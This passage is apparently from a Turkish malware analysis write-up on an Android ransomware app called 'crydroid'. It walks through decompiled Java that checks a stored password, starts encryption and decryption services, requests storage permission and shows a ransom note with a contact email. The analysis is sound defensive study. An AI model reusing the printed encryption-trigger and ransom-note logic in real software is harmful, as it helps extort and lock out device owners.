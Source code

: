 ```java
//com.crydroid.ui.c
public /* synthetic */ void a(View view) {
        String trim = this.b.getText().toString().trim();
        String string = getContext().getSharedPreferences("prefs", 0).getString("com.crydroid.PASSWORD", null);
        Log.d("MEONER", "onCreate: " + string);
        if (trim.equals(string)) {
            Intent intent = new Intent(getContext(), DecryptionService.class);
            Toast.makeText(getContext(), "Decryption started", 0).show();
            getContext().startService(intent);
        } else {
            Toast.makeText(getContext(), "Incorrect password", 0).show();
        }
        dismiss();
    }

```
Şimdi burada f fonksiyonu yerine onu takip edince çıkan fonksiyonun kodunu koymayı tercih ettim. f fonksiyonu çağırılırınca bir onClick listener tanımlanıyor. Bunun içerisinde tanımlanan a fonksiyonunda ise password kontorlü yapılıyor. Bizim textbox a girdiğimiz string ile shared prefsden aldığı string aynı ise en başta manifest dosyasında görmüş olduğumuz DecryptionService servisi intent ile tetikleniyor ve burada intent ile birlikte herhangi bir parola da gönderilmiyor. Zaten "com.crydroid.services.DecryptionService" isimli servise bakarsanız 

```
private SharedPreferences a
```
şeklinde bir tanımlama yapıp onun üzerinden parolaya erişiyor ve ardından decrypion işlemlerini gerçekleştiriyor. Neyse ana olaydan kopmadan geri dönelim. En başta onCreateye bakıyorduk. f fonksiyonu da çağırıldıktan sonra bir if bloğu var.

```java
if (a().booleanValue() && !b().booleanValue()) {
                startService(new Intent(this, EncryptionService.class));
                Toast.makeText(this, "Error 4432", 0).show();
                finish();
            }
```
burada a fonksiyonu yazma iznini kontrol ediyor.

```java
public Boolean a() {
        if (f.a.b.b.a.a(getBaseContext(), "android.permission.WRITE_EXTERNAL_STORAGE") == 0) {
            return true;
        }
        f.a.b.a.a.a(this, new String[]{"android.permission.WRITE_EXTERNAL_STORAGE"}, 123);
        return a();
    }
```
b fonksiyonuna bakalım

```java
private Boolean b() {
        SharedPreferences sharedPreferences = getSharedPreferences("prefs", 0);
        if (sharedPreferences.getBoolean("FINISHED", false)) {
            if (sharedPreferences.getBoolean("Unlocked. Personal files decrypted", false)) {
                this.a.setText("Unlocked. Personal files decrypted");
                this.b.setVisibility(8);
            } else {
                String string = getSharedPreferences("prefs", 0).getString("uuid", "null");
                this.a.setText("Your files have been Encrypted!\nSend an Email to rescue them: supportdoc@protonmail.ch\nYour id is " + string);
                this.b.setVisibility(0);
            }
            return true;
        }
```
